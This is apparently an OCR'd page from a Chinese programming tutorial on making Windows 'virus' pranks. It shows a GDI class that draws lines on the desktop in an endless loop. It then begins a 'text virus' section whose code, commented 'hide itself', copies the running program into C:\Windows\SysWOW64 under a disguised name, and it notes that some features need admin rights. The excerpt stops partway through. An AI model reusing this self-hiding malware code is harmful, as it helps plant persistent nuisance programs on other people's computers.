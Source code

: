 ```cpp
		case 3:
			break;
		case 4:
			break;
		default:
			style = PS_SOLID;
			break;
		}
		hPen = CreatePen(style, weight, RGB(R,G,B));
		SelectObject(hEquipment, hPen); // 设置画笔
	}
	// 划线
	void DrawLine(int x, int y, int toX, int toY){
		MoveToEx(hEquipment, x, y, NULL);
		LineTo(hEquipment, toX, toY);    // 画到哪里
	}

	MzDrawer(){

	}
private:
	HDC hEquipment;   // 画布DC
	HWND hCanvas; // 窗口
	HPEN hPen;    // 画笔
};


int main(){
	MzDrawer mz;
	mz.SetCanvas(0); // 直接画桌面上
	mz.SetPen(0, 5, 255, 0, 0);
	while(1){
		mz.DrawLine(0,0,200, 200);
		Sleep(10);
	}
	return 0;
}
```



### 文字病毒

流程：

1. 获取dc设备句柄
2. 设置笔刷并关联
3. 循环绘制

主要代码（部分功能需要管理员权限）：

```cpp
#include <windows.h>
#include <string.h>
#include <stdio.h>
#include <time.h>
// #pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )


int main(){
	// 隐藏自身
	char path[255] = {0};
	GetModuleFileName(NULL, path, 255);
	char copycmd[MAXBYTE] = {0};
	sprintf(copycmd, "copy \"%s\" \"C:\\Windows\\SysWOW64\\mz.exe\" ", path);
	printf("%s \n", copycmd);
```